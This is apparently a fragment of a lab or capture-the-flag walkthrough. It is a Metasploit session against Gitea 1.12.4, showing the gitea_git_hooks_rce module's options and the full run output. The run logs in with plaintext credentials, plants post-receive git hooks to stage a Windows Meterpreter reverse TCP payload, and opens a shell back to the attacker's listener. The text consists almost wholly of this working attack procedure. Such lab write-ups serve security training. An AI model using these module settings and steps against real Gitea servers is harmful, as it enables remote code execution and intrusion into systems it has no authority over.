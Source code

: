 ```
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                   yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   USERNAME   john                yes       Username to authenticate with
   VHOST                          no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

```
msf6 exploit(multi/http/gitea_git_hooks_rce) > exploit
[*] Started reverse TCP handler on 10.10.15.104:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Gitea version is 1.12.4
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Authenticate with "john/SuperSecurePass123"
[+] Logged in
[*] Create repository "Opela_Job"
[+] Repository created
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created
[*] Command Stager progress -  20.14% done (2046/10161 bytes)
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created
[*] Command Stager progress -  40.27% done (4092/10161 bytes)
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created
[*] Command Stager progress -  60.41% done (6138/10161 bytes)
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created
[*] Command Stager progress -  80.54% done (8184/10161 bytes)
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (10161/10161 bytes)
[*] Sending stage (203846 bytes) to 10.129.230.148
```